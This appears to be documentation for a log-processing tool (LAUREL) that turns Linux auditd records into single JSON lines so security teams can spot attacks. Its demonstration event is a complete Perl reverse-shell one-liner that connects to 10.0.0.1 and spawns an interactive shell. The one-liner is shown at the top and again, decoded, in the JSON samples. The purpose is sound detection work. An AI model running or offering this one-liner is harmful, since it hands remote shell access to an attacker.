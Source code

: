 # Practical _auditd(8)_ problems

When configured with the right ruleset, logs written by the Linux audit daemon contain most of the information that a competent SOC team needs for host-based security monitoring.

Unfortunately, some design choices for the log format make accessing this information harder than necessary.

Running a simple Perl [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) one-liner
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
produces the following output in the audit log:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

A cursory look at the audita log does not tell us what is going on, except that a Perl interpreter has been started. We would like to do better.

There are several issues with processing this log file format within a SIEM context:

- Different aspects of the same audit event are spread across multiple lines and have to be joined together.
- Strings that contain characters with special meaning for the audit log format (spaces, quotes, etc.) are encoded as hexadecimal strings without quotes and require decoding before they can be processed or displayed to the analyst.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values. (This does not matter for this example.)
- Long command lines are even spread across multiple EXECVE event lines. (This does not matter for this example.)
- If the _auditd(8)_ user-space daemon adds information such as user   or group names (`format=ENRICHED`), this extra information is appended after a `\x1d` "group separator" character which may or may  not be displayed correctly.

This is the same log entry, processed by _LAUREL_ into a single JSON log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root","PPID":{"EVENT_ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}}
```

We can see that our main problems that would have prevented us from identifying the reverse shell have been resolved:
``` json
"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}
```

We can also see the parent process that was used to spawn the reverse shell:
``` json
"PPID":{"EVENT_ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}
```

Every line is a proper JSON document that can be reformatted with _jq_:
``` json
{
  "ID": "1626611363.720:348501",
  "SYSCALL": {
    "arch": "0xc000003e",
    "syscall": 59,
    "success": "yes",
    "exit": 0,
    "a0": "0x55c094deb5c0",
    "a1": "0x55c094dea770",
    "a2": "0x55c094dbf1b0",
    "a3": "0xfffffffffffff286",
    "items": 3,
    "ppid": 722076,
    "pid": 724395,
    "auid": 1000,
    "uid": 0,
    "gid": 0,
    "euid": 0,
    "suid": 0,
    "fsuid": 0,
    "egid": 0,
    "sgid": 0,
    "fsgid": 0,
    "tty": "pts3",
    "ses": 3,
    "comm": "perl",
    "exe": "/usr/bin/perl",
    "subj": "=unconfined",
    "key": null,
    "ARCH": "x86_64",
    "SYSCALL": "execve",
    "AUID": "user",
    "UID": "root",
    "GID": "root",
    "EUID": "root",
    "SUID": "root",
    "FSUID": "root",
    "EGID": "root",
    "SGID": "root",
    "FSGID": "root",
    "PPID": {
      "EVENT_ID": "1626611323.973:348120",
      "exe": "/bin/bash",
      "comm": "bash",
      "ppid": 3190631
    }
  },
  "EXECVE": {
    "argc": 3,
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"
    ]
  },
  "CWD": {
    "cwd": "/root"
  },
  "PATH": [
    {
      "item": 0,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 1,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 2,
      "name": "/lib64/ld-linux-x86-64.so.2",
      "inode": 404797,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    }
  ],
  "PROCTITLE": {
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"
    ]
  }
}
```
